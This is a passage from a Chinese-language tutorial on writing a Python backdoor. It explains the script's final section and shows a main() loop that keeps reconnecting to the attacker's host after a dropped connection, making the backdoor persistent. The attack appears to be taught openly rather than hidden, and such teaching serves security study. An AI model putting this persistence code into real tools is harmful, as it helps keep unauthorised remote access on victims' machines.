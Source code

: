 脚本的最后一部分是错误检查和运行部分。在脚本运行之前，我们确保让 Python 知道我们有一种机制，可以通过使用前面的 true 语句检查会话是否处于活动状态。如果连接丢失，Python 脚本将尝试重新建立与攻击机器的连接，使其成为持久后门：

```
def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```